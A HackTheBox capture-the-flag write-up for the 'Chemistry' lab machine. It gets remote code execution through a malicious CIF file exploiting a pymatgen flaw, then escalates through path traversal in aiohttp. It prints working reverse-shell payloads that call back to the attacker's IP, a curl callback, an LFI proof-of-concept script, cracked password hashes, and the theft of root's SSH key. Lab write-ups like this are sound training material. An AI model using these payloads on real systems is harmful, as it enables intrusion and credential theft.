

# Chemistry - HackTheBox Writeup

## Machine Information
- **Name:** Chemistry
- **Difficulty:** Easy
- **OS:** Linux

## TL;DR

Chemistry is an easy difficulty HackTheBox machine that features a Werkzeug website with a file upload feature that accepts CIF files. CVE-2024-23346 can be used to achieve remote code execution.

---

## Enumeration

Nmap scan results:

```
# Nmap 7.98 scan initiated Tue Nov 25 00:49:58 2025 as: nmap -sV -sC -T5 -oN scan.txt 10.129.231.170
Nmap scan report for chemistry.htb (10.129.231.170)
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.9.5)
|_http-title: Chemistry - Home
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 25 00:50:09 2025 -- 1 IP address (1 host up) scanned in 10.08 seconds
```

---

## Getting RCE

Okay, port 5000 is hosting an HTTP server using Werkzeug.

Adding `chemistry.htb` to the hosts file and visiting the website we see we can register an account, then login.

After that we see there's file upload functionality, specifically it accepts CIF files.

After some googling you can easily find out there is a remote code execution CVE for a python module that parses CIF files: **CVE-2024-23346**.

Looking around online I find a PoC that's worth trying:
https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

In there we see the following PoC:

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Looks like it loads os then runs system commands off of that.

In my initial attempt I just appended that to the example file but that doesn't work. I edit the PoC file and change the command to `curl http://[my_tun0_ip]:8000` and host a quick python HTTP server.

Uploading the file and viewing it executes the code and I see the following on my listener:

```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.231.170 - - [25/Nov/2025 00:56:42] "GET / HTTP/1.1" 200 -
10.129.231.170 - - [25/Nov/2025 00:56:47] "GET / HTTP/1.1" 200 -
```

Perfect :)

I now have RCE.

### Reverse Shell

Now for a quick reverse shell:

```bash
echo '/bin/bash -c "exec bash -i >& /dev/tcp/10.10.14.146/6666 0>&1"' | base64 -w0
```

I then put the following into the RCE section of the example file:

```bash
echo L2Jpbi9iYXNoIC1jICJleGVjIGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQ2LzY2NjYgMD4mMSIK | base64 -d | bash
```

After trying that I found issues with it running bash, after trial and error I tried just running sh and it worked so I got RCE with the following payload:

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \"exec sh -i >& /dev/tcp/10.10.14.146/6666 0>&1\"");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Note the usage of `sh` instead of `bash` in:
```bash
/bin/bash -c \"exec sh -i >& /dev/tcp/10.10.14.146/6666 0>&1\"
```

---

## Getting User Shell

Once I'm in the machine I look at `app.py` and see the following lines of code:

```python
app = Flask(__name__)
app.config['SECRET_KEY'] = 'MyS3cretCh3mistry4PP'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['UPLOAD_FOLDER'] = 'uploads/'
app.config['ALLOWED_EXTENSIONS'] = {'cif'}
```

Running `find . -name database.db 2>/dev/null` I find `database.db` in `/home/app/instance/database.db`

After exfiltrating the database to my machine I find the following entries in the 'user' table:

```
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
9|tania|a4aa55e816205dc0389591c9f82f43bb
10|eusebio|6cad48078d0241cca9a7b322ecd073b3
11|gelacia|4af70c80b68267012ecdac9a7e916d18
12|fabian|4e5d71f53fdd2eabdbabb233113b5dc0
13|axel|9347f9724ca083b17e39555c36fd9007
14|kristel|6896ba7b11a62cacffbdaded457c6d92
15|test|81dc9bdb52d04dc20036dbd8313ed055
16|a|0cc175b9c0f1b6a831c399e269772661
17|user|81dc9bdb52d04dc20036dbd8313ed055
18|nikola|e2fc714c4727ee9395f324cd2e7f331f
19|pan|96ac0342a3ccf9553e3d4c9da9b821b0
20|aa|4124bc0a9335c27f086f24ba207a4912
21|22a2|68a488cec6027c45382a422f25939645
```

Straight to hashcat it goes.

`rockyou.txt` cracks the following hashes:

```
81dc9bdb52d04dc20036dbd8313ed055:1234
9ad48828b0955513f7cf0f7f6510c8f8:carlos123
e2fc714c4727ee9395f324cd2e7f331f:abcd
6845c17d298d95aa942127bdad2ceb9b:peterparker
c3601ad2286a4293868ec2a4bc606ba3:victoria123
0cc175b9c0f1b6a831c399e269772661:a
4124bc0a9335c27f086f24ba207a4912:aa
63ed86ee9f624c7b14f1d4f43dc251a5:unicorniosrosados
```

Some of those are obviously just bait like 'a' and 'aa', but I'll test some of the other ones for login alongside their associated usernames.

It looks like **rosa** is a hit.

---

## Getting Root Shell

Looking around I don't find anything interesting so I decide to go straight to a linpeas scan. Linpeas picks up the following:

```
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:6666            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Port 6666 is a command I had running on it but port 8080 is interesting.

Running `curl http://localhost:8080` as rosa I see a whole other website running, hmmm.

Port forwarding that to my machine and accessing the website I see this:


I'm quite sure it's root running this website as I also see this line in linpeas:

```
root        1021  0.0  1.4 257652 28824 ?        Ssl  05:48   0:00 /usr/bin/python3.9 /opt/monitoring_site/app.py
```

To get some more information on this website I decided to nmap that port. I get the following:

```
8080/tcp open  http      aiohttp 3.9.1 (Python 3.9)
|_http-title: Site Monitoring
|_http-server-header: Python/3.9 aiohttp/3.9.1
```

Interesting, looking up aiohttp 3.9.1 I see it's vulnerable to **CVE-2024-23334**, which is an LFI vulnerability.

Looking at some public PoCs they all follow the same logic, here's the simplest one I found:

```python
import argparse
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning

# Disable SSL certificate verification warnings
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def main():
    parser = argparse.ArgumentParser(description="Test website with custom port and disable SSL verification")
    parser.add_argument("-s", "--site", help="Specify website with port (e.g., https://example.com:8080)", required=True)
    args = parser.parse_args()

    site_url = args.site
    string = "../"
    payload = "/assets/"
    file = "root/root.txt"  # without the first /

    for i in range(15):
        payload += string
        print(f"[+] Testing with {site_url}{payload}{file}")
        response = requests.get(f"{site_url}{payload}{file}", verify=False)  # Disable SSL verification

        print(f"\tStatus code --> {response.status_code}")

        if response.status_code == 200:
            print(response.text)
            break

if __name__ == "__main__":
    main()
```

It adds a `../` iteratively until it gets a hit on the file you want to read. It also requires a static directory to first 'go into' then use `../` to come out of and then get LFI.

For some reason all the scripts I tried wouldn't work too well even after modification so I went ahead and did it manually with curl and found this works:

```bash
curl --path-as-is http://localhost:8080/assets/../../../etc/passwd
```

Now I could end it here and get `/root/root.txt` with:

```bash
curl --path-as-is http://localhost:8080/assets/../../../root/root.txt
```

However, that's boring.

### Getting Root Shell

My first instinct for some reason was cracking `/etc/shadow`, not sure why.

After trying that for about 4 minutes and seeing john go to work on it I remembered I could try to see if root had any SSH keys.

Using my LFI to get `/root/.ssh/id_rsa` I actually do find a key.

I won't post it here to not spoil the box but yeah, I have root :)

```bash
ssh root@chemistry.htb -i key
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue 25 Nov 2025 07:57:15 AM UTC

  System load:           0.08
  Usage of /:            78.7% of 5.08GB
  Memory usage:          34%
  Swap usage:            0%
  Processes:             245
  Users logged in:       1
  IPv4 address for eth0: 10.129.231.170
  IPv6 address for eth0: dead:beef::250:56ff:feb0:6b54


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

9 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Oct 11 14:06:59 2024
root@chemistry:~#
```

---

## Flags

**User Flag:** `/home/rosa/user.txt`

**Root Flag:** `/root/root.txt`

---

## Note

Now a quick note, I solved this box around a year ago while it was active, I only now made the writeup but here's proof:
https://labs.hackthebox.com/achievement/machine/1142698/631


---

**Box Completed:** ✓
